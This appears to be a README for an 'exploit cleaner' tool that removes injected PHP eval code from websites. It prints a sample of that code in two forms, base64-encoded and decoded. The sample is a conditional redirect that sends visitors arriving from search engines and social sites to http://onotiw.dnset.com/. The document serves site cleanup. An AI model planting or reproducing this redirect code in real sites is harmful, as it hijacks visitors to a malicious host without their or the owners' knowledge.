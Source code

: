 exploit cleaner
==============

Removes common eval exploit code will have something similar to this:

eval(base64_decode("DQplcnJvcl9yZXBvcnRpbmcoMCk7DQokcWF6cGxtPWhlYWRlcnNfc2VudCgpOw0KaWYgKCEkcWF6cGxtKXsNCiRyZWZl
cmVyPSRfU0VSVkVSWydIVFRQX1JFRkVSRVInXTsNCiR1YWc9JF9TRVJWRVJbJ0hUVFBfVVNFUl9BR0VOVCddOw0KaWYgKCR1YWcpIHsNCmlmICgh
c3RyaXN0cigkdWFnLCJNU0lFIDcuMCIpIGFuZCAhc3RyaXN0cigkdWFnLCJNU0lFIDYuMCIpKXsKaWYgKHN0cmlzdHIoJHJlZmVyZXIsInlhaG9v
Iikgb3Igc3RyaXN0cigkcmVmZXJlciwiYmluZyIpIG9yIHN0cmlzdHIoJHJlZmVyZXIsInJhbWJsZXIiKSBvciBzdHJpc3RyKCRyZWZlcmVyLCJsa
XZlLmNvbSIpIG9yIHN0cmlzdHIoJHJlZmVyZXIsIndlYmFsdGEiKSBvciBzdHJpc3RyKCRyZWZlcmVyLCJiaXQubHkiKSBvciBzdHJpc3RyKCRyZWZ
lcmVyLCJ0aW55dXJsLmNvbSIpIG9yIHByZWdfbWF0Y2goIi95YW5kZXhcLnJ1XC95YW5kc2VhcmNoXD8oLio/KVwmbHJcPS8iLCRyZWZlcmVyKSBvc
iBwcmVnX21hdGNoICgiL2dvb2dsZVwuKC4qPylcL3VybFw/c2EvIiwkcmVmZXJlcikgb3Igc3RyaXN0cigkcmVmZXJlciwibXlzcGFjZS5jb20iKSB
vciBzdHJpc3RyKCRyZWZlcmVyLCJmYWNlYm9vay5jb20vbCIpIG9yIHN0cmlzdHIoJHJlZmVyZXIsImFvbC5jb20iKSkgew0KaWYgKCFzdHJpc3RyK
CRyZWZlcmVyLCJjYWNoZSIpIG9yICFzdHJpc3RyKCRyZWZlcmVyLCJpbnVybCIpKXsNCmhlYWRlcigiTG9jYXRpb246IGh0dHA6Ly9vbm90aXcuZG5
zZXQuY29tLyIpOw0KZXhpdCgpOw0KfQp9Cn0NCn0NCn0="));

That decodes to:


error_reporting(0);
$qazplm=headers_sent();
if (!$qazplm){
$referer=$_SERVER['HTTP_REFERER'];
$uag=$_SERVER['HTTP_USER_AGENT'];
if ($uag) {
if (!stristr($uag,"MSIE 7.0") and !stristr($uag,"MSIE 6.0")){
if (stristr($referer,"yahoo") or stristr($referer,"bing") or stristr($referer,"rambler") or stristr($referer,"live.com") or stristr($referer,"webalta") or stristr($referer,"bit.ly") or stristr($referer,"tinyurl.com") or preg_match("/yandex\.ru\/yandsearch\?(.*?)\&lr\=/",$referer) or preg_match ("/google\.(.*?)\/url\?sa/",$referer) or stristr($referer,"myspace.com") or stristr($referer,"facebook.com/l") or stristr($referer,"aol.com")) {
if (!stristr($referer,"cache") or !stristr($referer,"inurl")){
header("Location: http://onotiw.dnset.com/");
exit();
}
}


Which would send anyone that came from facebookl, yahoo, or google to:

http://onotiw.dnset.com/
